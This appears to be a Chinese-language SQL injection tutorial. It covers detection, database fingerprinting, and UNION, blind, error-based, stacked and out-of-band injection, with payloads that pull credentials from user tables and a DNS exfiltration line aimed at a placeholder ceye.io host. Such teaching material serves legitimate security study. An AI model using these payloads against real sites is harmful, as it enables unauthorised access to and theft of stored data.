






# SQL注入相关

## [](#1-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%9B%B8%E5%85%B3)1 数据库相关

### [](#11-%E5%AE%9A%E4%B9%89)1.1 定义

> 数据库是一个存储数据的仓库，
> 
> 以一定方式存储在一起、能与多个用户共享、具有尽可能小的冗余度，与应用程序彼此独立的数据集合

### [](#12-%E5%88%86%E7%B1%BB)1.2 分类

**关系型数据库 - SQL**

> 类似表格，表与表之前存在复杂的关系

MySQL、SQLServer 等

**非关系型数据库 - NoSQL**

> Key - Value 形式，简化数据库结构、避免冗余。

MangoDB、Redis、memcached

### [](#13-%E5%9F%BA%E6%9C%AC%E6%93%8D%E4%BD%9C)1.3 基本操作

**查看数据库**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>show databases();<br>``` |

**使用数据库**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>use<br>information_schema<br>``` |

**查看当前使用数据库**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select database();<br>``` |

**查看数据表**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>show tables();<br>``` |

**查看数据库版本**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select version();<br>``` |

**使用当前数据库的用户**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select user();<br>``` |

**查看数据库路径**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select @@datadir<br>``` |

**查看安装路径**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select @@basedir<br>``` |

**查看系统类型**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select @@version_compile_os<br>``` |

### [](#14-%E5%85%83%E6%95%B0%E6%8D%AE%E8%A1%A8---information_schema)1.4 元数据表 - information\_schema

**information\_schema**

是信息数据库其中保存着关于 MySQL 服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表的数据类型与访问权限等。对于 Web 渗透过程中用途很大

**SCHEMATA** 表：提供了当前 MySQL 实例中所有数据库的信息。是 show databases 的结果取之此表。

**TABLES** 表：提供了关于数据库中的表的信息(包括视图)。

**COLUMNS** 表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。

**通过元数据表查询数据表**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select table_name from information_schema.tables where table_schema='test';<br>``` |

**通过元数据表查询数据列**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select column_name from information_schema.columns where table_name='table1';<br>``` |

## [](#2-sql-%E6%B3%A8%E5%85%A5%E5%AE%9A%E4%B9%89%E5%8F%8A%E7%B1%BB%E5%9E%8B)2 SQL 注入定义及类型

### [](#21-%E5%AE%9A%E4%B9%89)2.1 定义

> 发生于`应用程序与数据库层`的安全漏洞

网站内部直接发送的 SQL 请求一般不会有危险，但实际情况是很多时候需要结合用户的输入数据动态构造 SQL 语句，如果用输入的数据被构造成恶意 SQL 代码，Web 应用又未对动态构造的 SQL 语句使用的参数进行审查，则会带来安全风险。

**形成原因**

1.  用户能够控制传参
2.  SQL 语句中拼接了用户传参的内容
3.  拼接后的 SQL 语句在数据库中执行

总结：用户输入的数据作为代码执行

### [](#22-%E5%88%86%E7%B1%BB)2.2 分类

布尔型注入

联合查询注入

时间型注入

报错型注入

堆叠注入(多语句查询注入)

## [](#3-%E5%88%A4%E6%96%AD-sql-%E6%B3%A8%E5%85%A5)3 判断 SQL 注入

问题

判断该访问目标 URL 是否存在 SQL 注入？

如果存在 SQL 注入，那么属于哪种 SQL 注入？

判断 SQL 注入后端数据库的类型？

### [](#31-%E7%BB%8F%E5%85%B8%E7%9A%84%E5%8D%95%E5%BC%95%E5%8F%B7%E5%88%A4%E6%96%AD%E6%B3%95)3.1 经典的单引号判断法

`http://xxx/text.php?id=1'`

如果页面返回错误，则存在 SQL 注入；原因是无论字符型还是整型都会因为单引号个数不匹配而报错。

### [](#32-%E5%88%A4%E6%96%AD%E6%B3%A8%E5%85%A5%E7%B1%BB%E5%9E%8B)3.2 判断注入类型

**数字型**

通常构造 `and 1=1` 以及 `and 1=2` 来判断

**运算符判断法：**

这种判断方法的关键在于通过加、减、乘、除等运算，判断输入参数附近有没有引号包裹，再通过一些通用的攻击手段，获取数据库的敏感信息。

**字符型**

通常构造 `and '1'='1` 以及 `and '1'='2` 来判断

**类型转换判断法：**

在 MySQL 中，等号两边如果类型不一致，则会发生强制转换。当数字与字符串数据比较时，字符串将被转换为数字，再进行比较。字符串 1 与数字相等；字符串 1a 被强制转换成 1，与 1 相等；字符串 a 被强制转换成 0 所以与 0 相等。



按照这个特性，我们容易判断输入点是否为字符型，也就是是否有引号（可能是单引号也可能是双引号，绝大多数情况下是单引号）包裹。访问 `?id=3-2`，页面为空，不是数字型，可能是字符型。继续尝试访问 `?id=2a`，成功返回结果，说明是字符型。

### [](#33-sql-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%9A%84%E7%B1%BB%E5%9E%8B)3.3 SQL 数据库的类型

#### [](#331-%E9%80%9A%E8%BF%87%E6%8A%A5%E9%94%99%E4%BF%A1%E6%81%AF)3.3.1 通过报错信息

-   MySQL

> you have an error in your SQL syntax,check the manual that corrsponds to your mysql server version for the tifht syntax to use near ” at line x

-   Access

> Microsoft JET Database…

-   MSSQL

> Microsoft ODBC Database…

#### [](#332-%E6%95%B0%E6%8D%AE%E5%BA%93%E6%A0%87%E5%BF%97%E6%80%A7%E4%BF%A1%E6%81%AF)3.3.2 数据库标志性信息

**sql server**：`select @@version--`

**Oracle**：`select banner from v$version`

**mysql**：`select @@version，version()-- ，length(user)>0正常`

**postgresql**：`select version()--`

#### [](#333-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%B9%E6%9C%89%E5%BA%93%E5%90%8D)3.3.3 数据库特有库名

**MySQL**：information\_schema

**Access**：mysysobjects

**Oracle**：sys.user\_tables

**MSSQL**：sysobjects

#### [](#334-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%B9%E6%9C%89%E5%87%BD%E6%95%B0)3.3.4 数据库特有函数

**sql server**：@@pack\_received @@rowcount

**mysql**：connection\_id()、last\_insert\_id()、row\_count()

**orcale**：bitand(1,1)

**postgresql**： select extract(dow from now())

在 mssql 中可以调用 substring。oracle 则只可调用 substr

#### [](#335-%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%A4%84%E7%90%86%E6%96%B9%E5%BC%8F)3.3.5 字符串处理方式

**mssql**：`id=1 and 'a'+'b'='ab'`

**mysql**：`id=1 and 'a'+'b'='ab' ， 'ab'=concat('a','b')`

**oracle**：`id=1 and 'a'+'b'='a'||'b' ，'ab'=concat('a','b')`

**postgresql**：`id=1 and 'a'+'b'='a'||'b' ,'ab'=concat('a','b')`

#### [](#336-%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E5%8F%8A%E6%B3%A8%E9%87%8A)3.3.6 特殊符号及注释

1.  `null` 和 `%00` 是 access 支持的注释
2.  `#` 是 MySQL 中的注释符，返回错误说明该注入点可能不是 MySQL，另外也支持`--` ，和 `/* */` 注释
3.  `--` 和 `/* */` 是 Oracle，SQL server 和 MySQL 支持的注释符，如果正常，说明可能就是这三个数据库其中之一。
4.  `;` 是子句查询标识符，在 Oracle 中不支持多行查询，返回错误，很可能是 Oracle 数据库。

## [](#4-union-%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2%E6%B3%A8%E5%85%A5)4 UNION 联合查询注入

### [](#41-%E5%8E%9F%E7%90%86)4.1 原理

union 操作符用于合并两个查询或者多个 select 语句的结果集

信息

UNION 内部的 select 语句必须有相同数量的列。

通过 UNION 联合查询，直接将查询的结果返回给页面，是最简单的一种注入方式。

### [](#42-%E5%B8%B8%E7%94%A8%E8%AF%AD%E5%8F%A5)4.2 常用语句

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```sql<br>// 库名<br>union select 1,group_concat(schema_name),3 from information_schema.schemata<br><br>union select 1,(select schema_name from information_schema.schemata limit 0,1),3<br><br>// 表名<br>union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'<br><br>// 列名<br>union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='emails'<br><br>// 数据<br>union select 1,group_concat(id,email_id),3 from security.emails<br>``` |

## [](#5-%E6%97%B6%E9%97%B4%E5%9E%8B%E7%9B%B2%E6%B3%A8--%E5%B8%83%E5%B0%94%E5%9E%8B%E7%9B%B2%E6%B3%A8)5 时间型盲注 & 布尔型盲注

盲注是注入的一种，指的是在不知道数据库返回值的情况下对数据中的内容进行猜测，实施 SQL 注入。盲注一般分为布尔盲注和基于时间的盲注和报错的盲注。

> **时间型**：通过注入特定语句，根据页面请求的物理反馈，来判断是否注入成功，如：在 SQL 语句中使用 sleep() 函数看加载网页的时间来判断注入点。
> 
> **布尔型**：页面只返回 True 和 False 两种状态(类型)页面。利用页面返回不同，逐个猜解数据。

适用场景：通常无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知。

### [](#51-%E5%8E%9F%E7%90%86%E7%A4%BA%E6%84%8F)5.1 原理示意

`select * from user where id = '?'`

`?` 为用户输入，替代为：`4' and sleep(3)#`

实际执行的 SQL 语句：`select * from user where id = '4' and sleep(3)#`

当 ID = 4 存在时，sleep 3 秒

当 ID = 4 不存在时，直接返回

整条拼接出来的 SQL 是正确的就执行 sleep，前面错误（不存在），sleep(3) 不执行

### [](#52-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)5.2 常用函数

#### [](#521-%E7%BC%96%E7%A0%81%E8%BD%AC%E6%8D%A2%E5%87%BD%E6%95%B0)5.2.1 编码转换函数

`ord('a')`：将字符转化为 ascii 码

`ascii('a')`：将字符转化为 ascii 码

`char(97)`：将 ascii 转化为字符

#### [](#522-%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E5%87%BD%E6%95%B0)5.2.2 条件判断函数

`if(exp1, exp2, exp3)`：exp1 成立，执行 exp2，否则执行 exp3。

case when then 函数：`select case when username="admin" then sleep(1) else "error" end from wp_user_`

#### [](#523-%E6%88%AA%E5%8F%96%E5%87%BD%E6%95%B0)5.2.3 截取函数

**substr 函数**

`substr(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substr(str from pos for length)` ：可以用在过滤了 `,` 的情况

**substring 函数**

`substring(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substring(str from pos for length)` ：可以用在过滤了 `,` 的情况

注意：pos 从 1 开始

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1 and if(ord(substr(database(),1,1))=116,1,0)%23<br>select substring(database(), from 1 for 1)<br>select substring(database(), 0, 1)<br>``` |

**mid 函数**

`mid(str, pos, length)`

`mid(str from pos for length)`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>select mid(database(), from 1 for 1)<br>select mid(database(), 1, 1)<br>``` |

**left 函数**

从左开始截取字符串

`left(str, len)`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select left(database(), 1)<br>``` |

**right 函数**

从右开始截取字符串

`right(str, len)`

**利用正则表达式逐位匹配**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>select * from wp_user_ where password rlike "^1"<br>select * from wp_user_ where password REGEXP "^1"<br>select * from wp_user_ where password REGEXP "^12"<br>...<br>``` |

#### [](#524-%E5%BB%B6%E6%97%B6%E5%87%BD%E6%95%B0)5.2.4 延时函数

`sleep(n)`：程序挂起 n 秒

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>if(ascii(substr(database() from 0))=97, sleep(3),0)<br>``` |

`benchmark(count, sha(1))`：执行 sha(1) 函数 count 次达到延时的目的

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>SELECT BENCHMARK(10000000, sha(1))<br>``` |

利用笛卡尔积制造延时：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>SELECT count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C;<br>``` |

利用正则表达式匹配长字符串制造延时：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from wp_user_ where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0)<br>``` |

#### [](#525-%E5%85%B6%E5%AE%83%E5%87%BD%E6%95%B0)5.2.5 其它函数

`count()`：计算总数

`length()`：返回字符串的长度

## [](#6-%E6%8A%A5%E9%94%99%E5%9E%8B%E6%B3%A8%E5%85%A5)6 报错型注入

### [](#61-%E5%8E%9F%E7%90%86)6.1 原理

> 用于使用 SQL 语句报错的语法，用于注入结果无回显，但显示错误信息有输出的情况
> 
> 返回的信息即是攻击者需要的信息

MySQL 报错注入主要分为以下几类：

1.  BigInt 等数据类型溢出
2.  Xpath 语法错误
3.  count() + rand() + group by 导致主键重复
4.  空间数据类型函数错误

### [](#62-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)6.2 常用函数

#### [](#621-updatexml)6.2.1 updatexml

> updatexml 第二个参数需要传入的是 Xpath 格式的字符串。输入不符合，将参数值返回并报错。
> 
> 报错长度最大为 32 位

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```sql<br>// 显示当前数据库<br>updatexml(1,CONCAT(0x7e, database()),1)<br><br>// 显示所有数据库<br>updatexml(1,CONCAT(0x7e,(select schema_name FROM INFORMATION_SCHEMA.SCHEMATA limit x,1), 0x7e),1)<br><br>// 获取表名<br>updatexml(1,CONCAT(0x7e,(select table_name from information_schema.tables where table_schema="sectest" limit x,1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)<br><br>// 获取列名<br>updatexml(1,CONCAT(0x7e,(select column_name from information_schema.COLUMNS where table_name="wp_user_" limit 1,1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)<br><br>// 获取数据<br>updatexml(1,CONCAT(0x7e,(select username from wp_user_ limit 0,1), 0x7e),1)<br><br>updatexml(1,CONCAT(0x7e,(select password from wp_user_ where username="admin" limit 0,1), 0x7e),1)<br><br>updatexml(1,CONCAT(0x7e,(select GROUP_CONCAT(username, 0x3a, password) from wp_user_ where id=1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select data from users)),1)#<br>``` |

#### [](#622-floor-%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.2 floor 显错注入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>and (select 1 from (select count(*), concat(user(), floor(rand(0)*2))x from information_schema.tables group by x)a)<br><br>and (select 1 from (select count(*), concat((select group_concat(username,0x3a,password) from wp_user_ where id=1), floor(rand(0)*2))x from information_schema.tables group by x)a)<br>``` |

#### [](#623-%E5%85%B6%E5%AE%83%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.3 其它显错注入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>and extractvalue(1,concat(0x7e,(select database())))<br>//1105 - XPATH syntax error: '~sectest', Time: 0.000000s<br><br>and exp(~(select * from (select user())a)) // mysql5<br><br>union select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;<br>//1060 - Duplicate column name '5.7.23', Time: 0.000000s<br>``` |

#### [](#63-demo)6.3 Demo

[http://ctf5.shiyanbar.com/web/baocuo/index.php](http://ctf5.shiyanbar.com/web/baocuo/index.php)

**payload**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>updatexml(1,concat(0x7e,(version())),0)<br><br>http://ctf5.shiyanbar.com/web/baocuo/index.php<br>$sql="    select * from users where username='' and updatexml /*' and password='*/(1,concat(0x7e,(version())),0) or '1' "<br>``` |

## [](#7-%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5)7 堆叠注入

一堆 SQL 语句(多条)一起执行

在 MySQL 中，主要是命令行中，每条语句结尾加 `;` 表示语句结束。这样可以考虑多条 SQL 语句一起使用

问题

堆叠注入和 UNION 注入的差别是？

UNION 执行的语句类型是有限的，只可以用来执行查询语句

而堆叠注入可以执行任意语句

注意：场景少；但是**威力大**

并不是每一个环境下都可以执行，很可能受 API 或者数据库引擎不支持的限制，同时权限不足也是面临的主要问题

在真实环境中：

1.  通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的
2.  在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息

在 PHP - MySQL 中相关的 API

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```php<br>$query  = "SELECT CURRENT_USER();";<br>$query .= "SELECT Name FROM City ORDER BY ID LIMIT 20, 5";<br><br>/* 批量执行查询 */<br>if ($mysqli->multi_query($query)) {<br>    do {<br>        /* store first result set */<br>        if ($result = $mysqli->store_result()) {<br>            while ($row = $result->fetch_row()) {<br>                printf("%s\n", $row[0]);<br>            }<br>            $result->free();<br>        }<br>        /* print divider */<br>        if ($mysqli->more_results()) {<br>            printf("-----------------\n");<br>        }<br>    } while ($mysqli->next_result());<br>}<br>``` |

## [](#8-oob-%E6%B3%A8%E5%85%A5)8 OOB 注入

| 攻击类别 | SQL 注入类型 | 说明  |
| --- | --- | --- |
| INBAND | 报错注入、UNION 注入 | 在应用内直接获取数据，通用过应用返回或者报错直接提取数据 |
| INFERENCE | 布尔注入、时间盲注 | 通过应用的非直接数据反馈进行推断 |
| OUT OF BAND | OOB SQL 注入 | 通过其它信道获取数据 |

### [](#81-%E5%B8%A6%E5%A4%96%E9%80%9A%E9%81%93%E6%8A%80%E6%9C%AF%E5%AE%9A%E4%B9%89---out-of-band)8.1 带外通道技术定义 - Out Of Band

> 带外通道技术(OOB)让攻击者能够通过另一种方式来确认和利用没有直接回显的漏洞。

这一类漏洞中，攻击者无法通过恶意请求直接在响应包中看到漏洞的输出结果。

带外通道技术通常需要脆弱的实体来生成带外的 TCP/UDP/ICMP 请求，然后，攻击者可以通过这个请求来提取数据。

一次成功的 OOB 攻击是基于：

1.  存在漏洞的系统
2.  外围防火墙的出站请求

### [](#82-oob-vs-x)8.2 OOB vs. X

#### [](#821-oob-vs-inband)8.2.1 OOB vs. Inband

**常规通信信道**



**非应用内信道**



#### [](#822-oob-vs-time-based-blind-injection)8.2.2 OOB vs. Time-based Blind Injection

1.  可以看作是另一种盲注技术
2.  与盲注相比，速度具有优势，因为其实际上实现了变相的回显

### [](#83-oob-%E5%88%A9%E7%94%A8%E5%87%BD%E6%95%B0---load_file-%E5%87%BD%E6%95%B0)8.3 OOB 利用函数 - load\_file 函数

load\_file 函数是 MySQL 中一个常用的函数，主要用来读取文件内容。

函数原型：load\_file(file\_path)

该函数会读取文件内容，并将文件内容作为字符串返回。如果读取失败会返回 null

信息

该函数在执行过程中需要遵循 secure\_file\_priv 的限制，如果直接执行，在读取目标文件内容时会失败。


secure\_file\_priv 变量的值为 `/var/lib/mysql-files`，因此 `load_file()` 函数只能够去读该目录下的文件内容


注意

如果想完成任意目录下文件读取需要在 `/etc/my.conf(my.ini)` 中将 `secure_file_priv` 的值置为空

### [](#84-oob-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86)8.4 OOB 注入原理

在 windows 下，利用 load\_file 函数可以读取 UNC 路径的特性，把注入产生的信息来放到 UNC 地址中，通过 DNSLog，将数据带出

示例

select load\_file(concat("\\\\\\\\", (select database()), “.xxx.ceye.io\\\\abc”))

### [](#85-%E6%89%A9%E5%B1%95---%E5%A4%A7%E6%96%87%E6%9C%AC%E4%BC%A0%E8%BE%93)8.5 扩展 - 大文本传输

**域名长度限制**

域名由标签组成，以 `.` 分割，标签的长度不可以超过 63 个字符

整个域名不可以超过 253 个字符，包括 `.`

**思路**

1.  使用 load\_file 读取文件内容
2.  使用 substr 对文件内容进行切片
3.  使用 to\_base64 对切片的内容进行编码
4.  使用 concat 将编码后的内容与域名进行拼接
